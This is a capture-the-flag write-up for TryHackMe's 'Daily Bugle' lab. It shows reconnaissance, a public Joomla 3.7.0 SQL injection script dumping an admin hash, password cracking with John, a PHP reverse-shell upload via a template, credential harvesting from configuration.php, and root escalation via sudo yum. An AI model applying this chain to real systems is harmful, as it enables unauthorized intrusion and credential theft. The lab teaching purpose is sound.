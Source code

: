 ```yaml
---
title : Daily Bugle - Writeup
---
```


_**Jan 04, 2021**_

[Daily Bugle](https://tryhackme.com/room/dailybugle) Writeup


## Recon :

```sh
bvr0n@kali:~/CTF/THM/DailyBugle$ nmap -sC -sV 10.10.177.60
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
```

Looks like we have a website running on port `80`, Let's enumerate it. Meanwhile let's run `Gobuster` to see if there something intresting :
                                                                                                                                                                     
```sh
bvr0n@kali:~/joomscan$ gobuster dir -u http://10.10.177.60/ -w ~/Documents/Dirbuster/wordlist.txt                                                                    

/administrator (Status: 301)
/bin (Status: 301)
/cache (Status: 301)
/cgi-bin/ (Status: 403)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/robots.txt (Status: 200)
```

so `/administrator` caught our eyes, so after checking that login page, it looks like it's running `Joomla`, Let's try to figure out which version of `Joola`.

i used `joomscan`, You can find it [Here](https://github.com/OWASP/joomscan).

```sh
bvr0n@kali:~/joomscan$ perl joomscan.pl -u http://10.10.177.60/

    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)

    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.177.60/ ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
```
So from the scan, it seems like it's running the 3.7.0 version, let's look if this one have a know vulnerability :

```sh
bvr0n@kali:~$ searchsploit joomla 3.7.0
-------------------------------------------------------------------------------------------------------------- ------------------------
 Exploit Title                                                                                                |  Path
-------------------------------------------------------------------------------------------------------------- ------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                    |  php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                                                 |  php/webapps/43488.txt
-------------------------------------------------------------------------------------------------------------- ------------------------
```
I kept looking in the internet about that version, and i stumbled across this script abusing ths SQLI in this version. [Script](https://github.com/XiphosResearch/exploits/tree/master/Joomblah) :

```sh
bvr0n@kali:~/CTF/THM/DailyBugle$ python joomblah.py http://10.10.177.60
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/****************.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

As we noticed this gave us `jonah's` hash, Let's decrypt it using `John The Ripper`.

```sh
bvr0n@kali:~/CTF/THM/DailyBugle$ sudo john jonah_hash --wordlist=/home/bvr0n/Documents/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
************     (?)
1g 0:00:16:32 DONE (2020-11-22 13:36) 0.001007g/s 47.20p/s 47.20c/s 47.20C/s spiderman123..skater101
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Let's login to the Administrator panel using this password. After a success login we can upload a .php reverse shell inside like this : 
```
System > Global configuration > media
```
and upload a reverse shell here :

```
Extension > templates > Templates > Protostar > index.php
```

Set up a listner first before executing the script.

## Privilege Escalation :

We can see that inside `/var/www/html` a file named `configuration.php`, this file is used to configure Joomla & may contain some passwords.

```sh
bash-4.2$ cd /var/www/html
bash-4.2$ ls
LICENSE.txt    bin    components         images     language   media    robots.txt  web.config.txt
README.txt     cache  configuration.php  includes   layouts    modules  templates
administrator  cli    htaccess.txt       index.php  libraries  plugins  tmp
```

So read the file and grabe the password, this password also works on SSH, let's `ssh` as `jjameson`.

Now that we’re logged in as `jjameson`, the first thing we’re going to try is the `sudo -l` command to get us a list of commands we’re allowed to run as sudo:

```sh
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Looks like we can use sudo to run `Yum`, This is where [GTFOBins](https://gtfobins.github.io/gtfobins/yum/) comes in place :

Let’s copy that code into `jjameson’s`, And we are `root` now:

```sh
sh-4.2# id && hostname
uid=0(root) gid=0(root) groups=0(root)
dailybugle
```

I hope you enjoyed my writeup.
